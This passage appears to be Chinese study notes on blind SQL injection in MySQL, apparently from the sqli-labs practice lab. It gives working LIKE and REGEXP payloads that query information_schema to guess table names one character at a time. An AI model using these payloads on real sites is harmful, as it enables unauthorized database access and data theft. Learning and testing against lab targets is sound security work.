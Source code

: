 like匹配注入  
和上述的正则类似,mysql在匹配的时候我们可以用like进行匹配  
  
用法 select user() like 'ro%'  
http://127.0.0.1/sqli/Less-5/?id=1' and user() like 'eo%'--+

----

## SQL盲注之正则攻击

我们都已经知道，在 MYSQL 5+ 中 information_schema 库中存储了所有的 库名，表明以及字段名信息。故攻击方式如下：

1. 判断第一个表名的第一个字符是否是 a-z 中的字符 , 其中 blind_sqli 是假设已知的库名。

注：正则表达式中 ^[a-z] 表示字符串中开始字符是在 a-z 范围内

index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-z]' LIMIT 0,1) /*

2. 判断第一个字符是否是 a-n 中的字符

index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)/*

3. 确定该字符为 n

index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^n' LIMIT 0,1) /*

4. 表达式的更换如下

expression like this: '^n[a-z]' -> '^ne[a-z]' -> '^new[a-z]' -> '^news[a-z]' -> FALSE

这时说明表名为 news ，要验证是否是该表明 正则表达式为 '^news$' ，但是没这必要 直接判断 table_name = ’news‘ 不就行了。

5. 接下来猜解其它表了 **（只需要修改 limit 1,1 -> limit 2,1 就可以对接下来的表进行盲注了）这里是错误的！！！**

regexp 匹配的时候会在所有的项都进行匹配。例如：

security 数据库的表有多个， users ， email 等

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^u[a-z]' limit 0,1); 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1); 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 0,1); 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 1,1); 不正确

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 1,1); 不正确

实验表明：在 limit 0,1 下， regexp 会匹配所有的项。我们在使用 regexp 时，要注意有可能有多个项，同时要一个个字符去爆破。类似于上述第一条和第二条。而此时 limit 0,1 此时是对于 where table_schema='security' limit 0,1 。 table_schema='security' 已经起到了限定作用了， limit 有没有已经不重要了。

-----------------------------------------------MSSQL---------------------------------------------------
